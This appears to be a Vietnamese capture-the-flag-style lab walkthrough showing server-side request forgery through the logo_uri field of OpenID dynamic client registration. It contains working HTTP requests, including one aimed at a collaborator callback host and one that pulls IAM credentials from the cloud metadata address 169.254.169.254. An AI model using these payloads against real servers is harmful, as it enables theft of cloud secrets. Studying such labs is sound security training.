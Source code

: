 - Sử dụng Burp, kiểm tra luồng OAuth và nhận thấy rằng trang "Authorize", hiển thị logo của ứng dụng khách. Logo này được lấy từ */client/CLIENT-ID/logo*. Chúng ta biết từ thông số OpenID rằng các ứng dụng khách có thể cung cấp URL cho logo của họ thông qua thuộc tính logo_uri trong quá trình đăng ký động.

  <img width="1863" height="575" alt="image" src="https://github.com/user-attachments/assets/3d041d06-11d5-4d09-973e-092df1b34933" />

- Gửi request GET /client/CLIENT-ID/logo đến Burp Repeater.

- Trong Repeater, tại POST /reg request. Thêm thuộc tính logo_uri với giá trị là URL của Burp Collaborator:

  ```
  POST /reg HTTP/2
  Host: oauth-0a0d002504d5131280f2152c0268007d.oauth-server.net
  Content-Type: application/json
    
  { 
       "redirect_uris" : [
  					"https://example.com"
       ],
      	"logo_uri" : "https://hpaxlw1koa4dajuvozt5af4ei5owcn0c.oastify.com"
  }
  ```

- Gửi request:

  <img width="1865" height="790" alt="image" src="https://github.com/user-attachments/assets/9f23dbd1-de52-41b4-aaae-8af0889f64e6" />

  &rarr; Chú ý *client_id: MTmNd--8X6B8R1DfN6EgU*

- Trong request *GET /client/CLIENT-ID/logo*, ta thay CLIENT-ID là giá trị ta vừa mới có ở trên và gửi request:

  <img width="1919" height="835" alt="image" src="https://github.com/user-attachments/assets/0ec24cf8-914b-4e1c-903c-4e37c6ba83f8" />

- Kiểm tra Burp Collaborator, nhận thấy rằng có một HTTP interaction đang cố gắng lấy logo không tồn tại của ta. Điều này xác nhận rằng ta có thể sử dụng thuộc tính logo_uri để kích thích yêu cầu từ máy chủ OAuth.

  <img width="1919" height="897" alt="image" src="https://github.com/user-attachments/assets/264c9a7b-db8a-41e6-92b0-ac4f25cc27fc" />

- Quay lại request POST /reg và thay giá trị logo_uri với target URL như dưới và gửi request:

  ```
  "logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
  ```

  <img width="1869" height="847" alt="image" src="https://github.com/user-attachments/assets/4ea720c3-b36c-4f47-afc9-bf3f8763e364" />

- Tương tự, lấy giá trị client_id mới và thay thế vào trong request *GET /client/CLIENT-ID/logo* và tiếp tục gửi đi request:

  <img width="1918" height="846" alt="image" src="https://github.com/user-attachments/assets/62d708b9-37a2-4ea7-a502-d4e52729787f" />

  &rarr; Ta thấy rằng phản hồi chứa metadata nhạy cảm cho môi trường đám mây của nhà cung cấp OAuth, bao gồm khóa truy cập bí mật.
